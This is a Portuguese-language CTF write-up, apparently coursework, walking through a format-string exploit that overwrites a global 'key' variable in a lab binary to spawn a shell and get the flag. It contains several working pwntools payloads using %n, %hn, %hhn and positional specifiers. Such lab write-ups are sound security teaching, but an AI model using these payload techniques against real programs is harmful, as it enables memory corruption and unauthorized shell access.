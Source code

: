 # CTF7 Desafio extra

## Recolha de informação e Reconhecimento da vulnerabilidade

Acaba por ser bastante semelhante ao segundo desafio desta semana 7, apenas o endereço da variável `key` passa a ser `0x804b320`.


## Exploração da vulnerabilidade

### Tentativa 1

Começamos por tentar modificar o valor da variável global `key` usando o `%n`, tal como feito antes no desafio 2:

```py
p.recvuntil(b"here...")
p.sendline(b"AAAA\x20\xB3\x04\x08%.48871x%n")
p.interactive()
```

Mas correu mal, devido a `\x20` corresponder a um espaço em código ASCII, o que acaba por não permitir a leitura total da string injetada.

### Tentativa 2

Para tentar corrigir isso, fomos tentar escrever no endereço `0x804b31F` (1 byte anterior ao endereço da `key`) o valor de `0xBEEF00`:


```py
p.recvuntil(b"here...")
p.sendline(b"AAAA\x1F\xB3\x04\x08%.12513024x%n")
p.interactive()
```

Agora a shell já era lançada só que vinha logo com um timeout, por causa do elevado número de caracteres (mais de 12 milhões) escritos:

<img src="../screenshots/ctf7/try2.png" alt="try">

### Tentativa 3

Para corrigir tinhamos de baixar o número de caracteres escritos e para isso usamos os format specifiers `%hn` e `%hhn`, que nos permitem dividir o valor `0xBEEF00` em: **(1)** `0xBE` (1 byte, `%hhn`) e **(2)** `0xEF00` (2 bytes, `%hn`):

```py
p.recvuntil(b"here...")
p.sendline(b"AAAA\x21\xB3\x04\x08BBBB\x1F\xB3\x04\x08%.%172x%hhn%60994x%hn")
p.interactive()
```

No entanto ao executar voltamos a não conseguir lançar o terminar agora porque a string injetada ultrapassa os 32 bytes, o espaço alocado ao `buffer`...

### Tentativa 4

Então usamos os format specifiers `%1$hhn` e `%2$hn` para podermos poupar 8 bytes no nosso input - `%m$` permite-nos referenciar o m-ésimo argumento. 

```py
p.recvuntil(b"here...")
p.sendline(b"\x21\xB3\x04\x08\x1F\xB3\x04\x08%.182x%1$hhn%.60994x%2$hn")
p.interactive()
```

Só que como a string continua a ter mais de 32 bytes, passamos `%.182x` e `%.60994x` para `%182x` e `%60994x`, respetivamente:

```py
p.recvuntil(b"here...")
p.sendline(b"\x21\xB3\x04\x08\x1F\xB3\x04\x08%182x%1$hhn%60994x%2$hn")
p.interactive()
```

E assim já conseguimos obter a flag esperada:

<img src="../screenshots/ctf7/flag3.PNG" alt="flag3">
